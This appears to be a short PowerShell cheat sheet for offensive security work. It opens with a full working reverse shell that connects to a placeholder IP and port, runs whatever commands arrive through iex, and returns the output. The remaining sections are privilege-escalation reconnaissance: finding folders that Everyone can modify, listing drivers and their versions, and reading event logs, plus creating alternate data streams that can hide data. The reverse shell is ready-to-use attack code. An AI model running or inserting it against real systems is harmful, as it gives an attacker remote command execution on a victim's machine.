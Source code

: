 ### Reverse Shells:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('ip address',port);   
$stream = $client.GetStream();   
[byte[]]$bytes = 0..65535|%{0};   
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)   
{   
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);   
    $sendback = (iex $data 2>&1 | Out-String );   
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';   
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);   
    $stream.Write($sendbyte,0,$sendbyte.Length);   
    $stream.Flush();   
}   
$client.Close();
```

### Find RW files & directories (here w/in the Program Files dir):  
```powershell
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```

### List drivers:  
```powershell
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path
```

### Find driver version:
```powershell
Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
```

### Cmdlets:

**Get-EventLog** - Query Windows Events/ Log parser
	**-LogName** - Name of log to retrieve
	**|** - Can pip for more detailed info
		Ex:
 ```powershell
Get-EventLog -LogName <log> | Format-List -Property * ; | Format-List -Property EventId, Message
```

**Get-Content** - Similar to cat
**Get-ChildItem** - Gets items in one or more specified locations
**Set-Content** -Used to create content and ADS streams
	Ex:
```powershell
Set-Content -Path <.\file.ext> -Stream <ads.ext>
```
